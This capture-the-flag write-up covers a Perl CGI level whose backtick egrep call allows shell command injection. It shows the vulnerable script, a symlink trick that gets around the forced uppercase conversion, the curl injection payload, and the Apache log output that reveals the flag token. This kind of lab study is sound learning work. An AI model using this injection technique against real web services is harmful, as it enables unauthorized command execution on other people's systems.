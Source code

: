 When we started the level we found a level12.pl.
=> 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));

We can easily understand that the security breach is `@output = `egrep "^$xx" /tmp/xd 2>&1`;`

We tried to made some injections but the regex turn our ls to => LS that make some errors .. 
After one full day of research we tried to exec /bin/ls and to trasnfer the result in the error file of apache in /var/log/apache2/error.log and we finaly get some error to try to debug things : [Thu Feb 08 13:33:52 2024] [error] [client 127.0.0.1] /*/LS: not found

after this we get idea to just make a link beetween /bin/ls and /tmp/LS : ln -s /bin/ls /tmp/LS
Then triying to execute curl '127.0.0.1:4646/?x=`/*/ls%3E%262`'.

This work, we got an LS in the errorlog of Appache

Do this with Getflag and we finaly get the flag ! 
[Thu Feb 08 13:41:20 2024] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
